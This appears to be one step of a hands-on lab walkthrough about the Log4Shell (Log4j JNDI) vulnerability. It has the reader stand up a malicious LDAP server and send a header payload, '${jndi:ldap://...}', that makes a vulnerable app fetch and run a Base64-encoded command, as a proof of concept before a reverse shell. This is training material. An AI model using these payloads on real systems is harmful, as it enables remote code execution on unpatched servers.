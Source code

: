 # 2- Setup Malicious LDAP Server and POC

In this challenge, you will be setting up the attacker's infrastructure and sending your first malicious payload to test a Proof of Concept (POC).

1.  Start by swapping to the **Ubuntu Attacker Endpoint**. This can be done by typing `CTRL`, `ALT`, and `Shift` simultaneously and clicking the **Pluralsight** drop down from the top-left.
    
2.  Test network connectivity to the vulnerable application (Remember, a 400 error is expected!):
    
    `curl http://172.31.24.20:8080`
    
3.  Next, you'll need to setup the malicious LDAP server. When you send the payload to the vulnerable app, it will use JNDI to call back to this malicious LDAP server for further instructions. Start with a clean terminal session:
    
    `screen -S ldap`
    
4.  Start the LDAP server:
    
    `sudo docker run --name log4jldapserver -p 1389:1389 -p 8888:8888 oofles/log4shell-ldap-server`
    
    **Note:** You are setting the LDAP server to listen on port **1389** (for LDAP requests) and port **8888** (for the redirected payload commands to be sent over HTTP). 
    
5.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
6.  Now it's time to send the first malicious payload! The vulnerable application is logging the **X-Api-Version** field, so you'll use `curl` to send the payload, changing that field to contain the malicious string:
    
    `curl 172.31.24.20:8080 -H 'X-Api-Version: ${jndi:ldap://172.31.24.10:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==}'`
    
    **Note:** The Base64 encoded string translates to: `touch /tmp/pwned`.
    
    **Analysis:** A **Hello World!** response is the method this vulnerable app uses to let you know the request was successful.
    
7.  Check the LDAP server to see if the requests came through successfully:
    
    `screen -r ldap`
    
    **Analysis:** You can see the initial LDAP query come through for `Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==`. The server then translates the Base64 payload into a command and passes to a Java class that handles delivery and execution. This payload is then sent to the vulnerable endpoint over port **8888**.
    
8.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
9.  Swap to the **Ubuntu Defender Endpoint**.
    
    `CTRL`, `ALT`, and `Shift`
    
10.  Check the vulnerable application's **/tmp/** directory:

`sudo docker exec vulnapp2 ls /tmp`

POC is a success!! However, that wasn't much of an exploit... Before getting into analysis, let's see if we can upgrade the exploit in this next challenge and establish a reverse shell.